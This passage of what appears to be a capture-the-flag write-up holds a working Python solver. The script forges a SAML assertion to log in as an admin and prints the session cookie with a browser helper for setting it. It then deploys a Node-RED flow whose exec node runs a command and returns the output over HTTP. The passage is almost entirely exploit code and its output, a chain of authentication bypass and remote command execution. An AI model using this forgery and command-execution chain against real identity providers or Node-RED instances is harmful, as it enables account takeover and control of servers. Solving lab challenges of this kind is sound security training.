    Destination="{escape(destination)}"
    InResponseTo="{request_id}">
  <saml:Issuer>beacon-auth-idp</saml:Issuer>
  {signature.group(1)}
  <samlp:Status>
    <samlp:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
    <samlp:StatusDetail>
      {descriptor}
    </samlp:StatusDetail>
  </samlp:Status>
  <saml:Assertion ID="{assertion_id}" Version="2.0" IssueInstant="{issue_instant}">
    <saml:Issuer>beacon-auth-idp</saml:Issuer>
    <saml:Subject>
      <saml:NameID>{escape(ADMIN_EMAIL)}</saml:NameID>
      <saml:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
        <saml:SubjectConfirmationData
          InResponseTo="{request_id}"
          NotOnOrAfter="{not_on_or_after}"
          Recipient="{escape(destination)}"/>
      </saml:SubjectConfirmation>
    </saml:Subject>
    <saml:Conditions NotBefore="{not_before}" NotOnOrAfter="{not_on_or_after}">
      <saml:AudienceRestriction>
        <saml:Audience>beacon-sso</saml:Audience>
      </saml:AudienceRestriction>
    </saml:Conditions>
    <saml:AuthnStatement AuthnInstant="{issue_instant}">
      <saml:AuthnContext>
        <saml:AuthnContextClassRef>
          urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport
        </saml:AuthnContextClassRef>
      </saml:AuthnContext>
    </saml:AuthnStatement>
  </saml:Assertion>
</samlp:Response>"""
    return base64.b64encode(xml.encode()).decode()


def build_flow() -> tuple[str, list[dict[str, object]]]:
    tab_id = uuid.uuid4().hex[:8]
    http_in_id = uuid.uuid4().hex[:8]
    exec_id = uuid.uuid4().hex[:8]
    http_response_id = uuid.uuid4().hex[:8]
    endpoint = f"/relay-{uuid.uuid4().hex[:10]}"

    return endpoint, [
        {"id": tab_id, "type": "tab", "label": "GridWatch Operator Canvas", "disabled": False, "info": ""},
        {
            "id": http_in_id,
            "type": "http in",
            "z": tab_id,
            "name": "",
            "url": endpoint,
            "method": "get",
            "upload": False,
            "swaggerDoc": "",
            "wires": [[exec_id]],
        },
        {
            "id": exec_id,
            "type": "exec",
            "z": tab_id,
            "command": "/readflag",
            "addpay": False,
            "append": "",
            "useSpawn": "false",
            "timer": "",
            "winHide": False,
            "oldrc": False,
            "name": "",
            "wires": [[http_response_id], [], []],
        },
        {
            "id": http_response_id,
            "type": "http response",
            "z": tab_id,
            "name": "",
            "statusCode": "",
            "headers": {},
            "wires": [],
        },
    ]


def main() -> int:
    parser = argparse.ArgumentParser(description="Exploit SAML login first, then SSRF into unauthenticated Node-RED.")
    parser.add_argument("--host", default="127.0.0.1", help="Challenge host")
    parser.add_argument("--port", type=int, default=1337, help="Challenge port")
    parser.add_argument("--scheme", default="http", choices=["http", "https"])
    args = parser.parse_args()

    base_url = f"{args.scheme}://{args.host}:{args.port}".rstrip("/")

    try:
        with API(base_url) as api:
            metadata = api.fetch_metadata()
            forged = forge_saml_response(metadata, base_url)
            api.submit_saml(forged)

            homepage = api.homepage()
            if "Role: <strong>admin</strong>" not in homepage:
                raise RuntimeError("admin session was not established")

            session_cookie = api.session_cookie()
            if session_cookie:
                helper = f'document.cookie="{SESSION_COOKIE}={session_cookie}; path=/; SameSite=Lax";location="{base_url}/";'
                print(f"[+] Admin dashboard: {base_url}/", file=sys.stderr)
                print(f"[+] Use cookie: {SESSION_COOKIE}={session_cookie}", file=sys.stderr)
                print(f"[+] Browser console helper: {helper}", file=sys.stderr)

            if not api.node_red_is_open():
                raise RuntimeError("Node-RED unexpectedly requires admin authentication")

            endpoint, flow = build_flow()
            api.deploy_flow(flow)

            body = api.trigger_flow(endpoint)
            flag = re.search(r"HTB\{[^}]+\}", body)
            if flag is None:
                raise RuntimeError("flag was not present in the response")
    except Exception as exc:
        print(f"[!] {exc}", file=sys.stderr)
        return 1

    print(flag.group(0))
    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```

Running the solver prints the flag:

```text
$ python3 htb/solver.py --host 127.0.0.1 --port 1337
HTB{...}
```
